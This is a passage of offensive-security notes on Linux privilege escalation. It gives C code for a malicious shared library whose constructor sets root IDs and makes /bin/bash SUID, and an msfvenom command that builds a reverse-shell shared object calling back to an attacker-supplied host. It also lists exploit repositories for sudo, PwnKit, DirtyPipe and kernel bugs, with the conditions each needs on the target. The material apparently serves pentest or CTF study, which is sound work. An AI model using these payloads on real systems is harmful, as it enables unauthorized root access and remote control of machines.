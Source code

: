 ```
//gcc -shared -o libcustom.so -fPIC libcustom.c  
  
#include <stdio.h>  
#include <unistd.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
static void inject() __attribute__((constructor));  
  
void inject(){  
setuid(0);  
setgid(0);  
printf("I'm the bad library\n");  
system("chmod +s /bin/bash");  
}
```

https://vk9-sec.com/privilege-escalation-suid-sgid-executables-shared-object-injection/?source=post_page-----b362f337365c--------------------------------

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ld.so.conf-example?source=post_page-----b362f337365c--------------------------------

another option is to compile revers shell to shared object
```
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=<IP> LPORT=<PORT>
```
#### Exploiting Kernel Vulnerabilities

- looking for vulnerabilities in the system
- exploit services that running on the machine localhost
- binary file versions
- run ./suggester.sh  to see fit exploit

tools:
- metasploit
- searchsploit
- msvenom
- exploitDB

vulnerabilities for example:

- CVE-2021-3156 - sudo Baron Samedit: https://github.com/asepsaepdin/CVE-2021-3156
	- need make command on the target
	- Sudo before 1.9.5p2
- PwnKit: https://github.com/joeammond/CVE-2021-4034
	- need python install on the target
	- another exploit need gcc https://github.com/berdav/CVE-2021-4034
		- example of use: https://medium.com/@thetraphacker/proving-grounds-pg-zenphoto-writeup-8cd8218d9b26
		- kernel 1.8.23 
- JDWP exploitation script https://github.com/IOActive/jdwp-shellifier
- CVE-2022-0847-DirtyPipe-Exploits: https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
	- need gcc install on the target
- GNU Screen 4.5.0 - Local Privilege Escalation exploit https://www.exploit-db.com/exploits/41154
	- need gcc install on the target
- kernel exploit: https://www.exploit-db.com/exploits/44298
	- need gcc / compile locally
	- kernel version: 4.4.0-116-generic
- RDS protocol https://www.exploit-db.com/exploits/15285
